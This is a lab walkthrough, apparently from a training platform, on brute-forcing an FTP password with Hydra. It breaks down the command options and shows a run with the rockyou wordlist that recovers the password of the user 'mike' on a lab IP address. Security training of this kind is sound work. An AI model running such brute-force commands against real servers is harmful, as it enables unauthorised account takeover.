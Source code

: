 When looking at an FTP server from the position we find ourselves in for this machine, an avenue we can exploit is weak or default password configurations.



**Method Breakdown**

So, from our enumeration stage, we know:

    - There is an FTP server running on this machine  

    - We have a possible username  

Using this information, let's try and **bruteforce** the password of the FTP Server.

**Hydra**

Hydra is a very fast online password cracking tool, which can perform rapid dictionary attacks against more than 50 Protocols, including Telnet, RDP, SSH, FTP, HTTP, HTTPS, SMB, several databases and much more. Hydra is already installed on the AttackBox, however, if you need it on your own attacking machine, you can find the GitHub repository [here](https://github.com/vanhauser-thc/thc-hydra).  

The syntax for the command we're going to use to find the passwords is this:

**"hydra -t 4 -l dale -P /usr/share/wordlists/rockyou.txt -vV 10.10.10.6 ftp"**

Let's break it down:

SECTION             FUNCTION  
  
hydra                   Runs the hydra tool  
  
-t 4                    Number of parallel connections per target  
  
-l [user]               Points to the user who's account you're trying to compromise  
  
-P [path to dictionary] Points to the file containing the list of possible passwords  
  
-vV                     Sets verbose mode to very verbose, shows the login+pass combination for each attempt  
  
[machine IP]            The IP address of the target machine  
  
ftp / protocol          Sets the protocol

Let's crack some passwords!  

Answer the questions below

### What is the password for the user "mike"?  

```
┌──(kali㉿vbox)-[~]
└─$ hydra -l mike -P /usr/share/wordlists/rockyou.txt ftp://10.10.14.239 -t 40
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-19 16:14:17
[DATA] max 40 tasks per 1 server, overall 40 tasks, 14344399 login tries (l:1/p:14344399), ~358610 tries per task
[DATA] attacking ftp://10.10.14.239:21/
[21][ftp] host: 10.10.14.239   login: mike   password: password
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-03-19 16:14:50
                                                                                                     
```
